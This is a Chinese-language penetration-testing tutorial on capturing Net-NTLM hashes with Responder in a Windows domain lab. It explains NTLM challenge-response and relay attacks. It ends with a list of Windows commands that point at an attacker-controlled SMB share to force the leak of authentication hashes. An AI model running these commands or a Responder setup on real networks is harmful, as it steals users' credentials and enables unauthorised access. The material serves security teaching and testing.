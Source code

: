 +++
title = "内网渗透之 Responder 与 Net-NTLM hash"
topics = ["Pentest"]
tags = ["intranet"]
description = "在内网中利用 Responder 这个工具获取 Net-NTLM hash"
date = "2018-09-10T09:48:10+08:00"
draft = false
+++

### 0x00 一些概念
* Windows 认证协议  
分为：基于 NTLM 的认证和基于 kerberos 的认证

* 什么是 NTLM Hash？  
早期 IBM 设计的 LM Hash 算法存在弱点，微软在保持向后兼容性的同时提出了自己的挑战响应机制，即 NTLM Hash

* 什么是 Challenge-Response 挑战/响应验证机制？  
    * Client 输入 username、password、domain，然后将用户名及密码 hash 后存在本地，并将 username 发送到 DC
    * DC 生成一个 16 字节的随机数，即 Challenge(挑战码)，然后传回 Client
    * Client 收到 Challenge 后将密码 hash 和 challenge 混合 hash，混合后的 hash 称为 response，然后将 challenge、response 和 username 发送给 Server
    * Server 将收到的 3 个值转发给 DC，然后 DC 根据传过来的 username 到域控的账号数据库 ntds.list 找到对应的密码 hash，将 hash 和 Client 传过来的 challenge 混合 hash，将这个混合 hash 与 Client 传过来的 response 进行对比验证

* NTLM Hash 与 Net-NTLM Hash
    * NTLM Hash 通常是指 Windows 系统下 SAM 中保存的用户密码 hash，通常可从 Windows 系统中的 SAM 文件和域控的 NTDS.dit 文件中获得所有用户的 hash（比如用 Mimikatz 提取），“挑战/响应验证”中的用户名及密码 hash 就是 NTLM Hash，可以用来进行 PTH 攻击
    * Net-NTLM Hash 通常是指网络环境下 NTLM 认证中的 hash，是基于用户密码的 NTLM Hash 计算出来的，“挑战/响应验证”中的 response 中包含 Net-NTLM hash，而用 Responder 抓取的就是 Net-NTLM Hash，可以用来做中间人攻击

* 关于 Responder  
由 Laurent Gaffie 撰写的 Responder 是迄今为止，在每个渗透测试人员用于窃取不同形式的证书（包括 Net-NTLM hash）的最受欢迎的工具。它通过设置几个模拟的恶意守护进程（如 SQL 服务器，FTP，HTTP 和 SMB 服务器等）来直接提示凭据或模拟质询 – 响应验证过程并捕获客户端发送的必要 hash。Responder 也有能力攻击 LLMNR，NBT-NS 和 mDNS 等协议。

* 什么是 NTLM 中继攻击？  
攻击者可以直接通过 LM Hash 和 NTLM Hash 访问远程主机或服务，而不用提供明文密码。

### 0x01 软件环境
* 可以从[https://github.com/lgandx/Responder](https://github.com/lgandx/Responder?_blank)下载Responder
* 被控主机：Ubuntu14.04（10.11.11.11）和目标机同一网段
* 域控主机：Win2008（10.11.11.5）用户 Administrator
* 域内主机：Win7（10.11.11.7）登录用户 zhangsan

### 0x02 通过 SMB 服务获取 Net-NTLM hash   
对于 SMB 协议，客户端在连接服务端时，默认先使用本机的用户名和密码 hash 尝试登录，所以可以模拟 SMB 服务器从而截获 hash，执行如下命令都可以得到 hash

```bash
net.exe use \\host\share
attrib.exe \\host\share
bcdboot.exe \\host\share
bdeunlock.exe \\host\share
cacls.exe \\host\share
certreq.exe \\host\share #(noisy, pops an error dialog)
certutil.exe \\host\share
cipher.exe \\host\share
ClipUp.exe -l \\host\share
cmdl32.exe \\host\share
cmstp.exe /s \\host\share
colorcpl.exe \\host\share #(noisy, pops an error dialog)
comp.exe /N=0 \\host\share \\host\share
compact.exe \\host\share
control.exe \\host\share
convertvhd.exe -source \\host\share -destination \\host\share
Defrag.exe \\host\share
DeployUtil.exe /install \\host\share
```